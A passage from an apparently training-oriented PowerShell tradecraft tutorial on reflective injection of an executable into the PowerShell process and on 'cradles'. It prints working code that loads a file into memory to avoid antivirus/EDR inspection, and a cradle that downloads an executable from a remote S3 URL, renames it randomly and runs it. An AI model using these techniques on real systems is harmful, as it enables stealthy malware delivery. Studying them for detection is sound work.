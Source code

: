 ![](images/PowerShell%20Greatest%20Hits%20Vol%201/image022.png)<br><br>

### Reflective Injection

PowerSploit's `Invoke-ReflectivePEInjection` uses the Windows API to load EXEs or DLLs from memory rather than from disk.  We can simulate this technique by writing `GoTeam.exe` into memory with the `New-InjectedThread` function from Jared Adkinson's [PSReflect-Functions](https://github.com/jaredcatkinson/PSReflect-Functions):

```powershell
$bytes = [System.IO.File]::ReadAllBytes("GoTeam.exe")
New-InjectedThread -Id $pid -ByteArray $bytes
```

![](images/PowerShell%20Greatest%20Hits%20Vol%201/image018.png)<br>

The executable is now written to a memory space inside the PowerShell process.

A common use of these methods is to load a file into memory from over the network so that the file executing is never written to disk, and therefore is never inspected by Antivirus/EDR tools.  This is accomplished using a *cradle*.


## Cradle Options

**Cradle** is the name given to one or more PowerShell commands designed to download code from a remote system and execute it:

- [Download to Disk](#download-to-disk)
- [Download to Memory](#download-to-memory)

### Download to Disk

The following code downloads the `GoTeam.exe` program, gives it a random name, saves and executes it with `Invoke-Item`:

```powershell
$rand = new-object random
$num=$rand.next(1000, 282133)
$wc=new-object System.Net.WebClient
$payload='https://s3.amazonaws.com/exercise-pcap-download-link/GoTeam.exe'
$path=$env:public+'\'+$num+('.ex'+'e')
$wc.DownloadFile($payload.ToString(),$path)
Invoke-Item $path
```
